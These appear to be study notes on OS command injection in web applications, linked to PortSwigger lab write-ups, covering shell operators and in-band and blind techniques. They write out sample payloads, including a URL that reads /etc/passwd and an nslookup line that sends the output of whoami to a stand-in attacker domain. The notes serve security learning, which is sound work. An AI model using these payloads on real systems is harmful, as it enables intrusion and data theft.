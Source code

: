- OS command injection is a technique used via a web interface in order to execute OS commands on a web server
	- The user supplies operating system commands through a web interface in order to execute OS commands.
- can typically fully compromise the application and its data
- in band and blind/out-of-band injections
- appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. `%3B` is URL encoded and decodes to semicolon
	`http://sensitive/something.php?dir=%3Bcat%20/etc/passwd`
# Explanation of Logical Operators 
- `&` - when added to the end of a command that take a long time to continue (`wget` a large file or `ping`) append `&` to the end of the command to run the command in the background or asynchronously
- `|` - this pipes the output of the first command as input into the second command
	- Uses of `|` will make command 2 to be executed whether command 1 execution is successful or not.
	- eg. `ls -l | grep ".txt"`
	- can also use `;` (Unix systems)
- `&&` - this runs the first command first and then then the second command synchronously
	- command 1 must succeed for command 2 to be performed (AND logical operator, both must be true)
- `||` - this runs either command 1 or command 2 (OR logical operator, either one must be true)
	- command 2 will only run if command 1 fails
- `$()` - captures output as a string
	- can output command as a variable for later use
	- `echo $(whoami)` or `$(touch test.sh; echo 'ls' > test.sh)`
- `\n` - starts a newline
	- only for Unix-based systems
# Tips & Tricks 
- if given multiple inputs, will have to try and see which one accepts system commands
- Useful Operators:
	- `| & || && ; \n $()`
- use ctrl+U to encode the payload. 
- append `&` for commands like `wget` or `ping` and && for normal commands at the end (there might be hidden OS command that runs after the client input, so use && or ||)
- leave the input blank and use `||` to ensure that the payload is the command that runs if the client input is a required field
- try each input to check if vulnerable because not all input will be vulnerable
- usually if there is a client input for email, it runs a OS command
	- try injecting payload there
- sometimes. the input controlled is within quotations
	- terminate the quoted string using ' or " before using operators
# In Band Command Injections
- analyze the response and determine if the application is vulnerable
# Blind/Injections
- trigger time delay or output the response of the command in the web root and retrieve file directly using a browser
## Blind OS Command Injections With Time Delays 
- use `ping -c 10 <ip>` to sleep the application for 10s
- if sleeps, input is vulnerable
Lab : [Blind OS command injection with time delays](../../../../writeups/portswigger/Blind%20OS%20command%20injection%20with%20time%20delays.md)
## Blind OS Command Injections By Redirecting Output
- redirect the response of the command and retrieve the file directly using the browser 
	- websites may be configured to serve files from a parent directory directory 
		- eg. if output the contents of the command echo "whoami" > /var/www/static/whoami.txt
		- using `example.com/whoami.txt` directly i can access the contents of `whoami.txt` 
## Blind Injections With Out-Of-Band Interactions
- trigger a out-of-band network interaction with a system you control
- example payload:
	`& nslookup kgji2ohoyw.web-attacker.com &`
	- this causes a DNS lookup
- add a system command to output it into the system controlled
	`& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`
	- this will append the output of `whoami` to the url
		`wwwuser.kgji2ohoyw.web-attacker.com`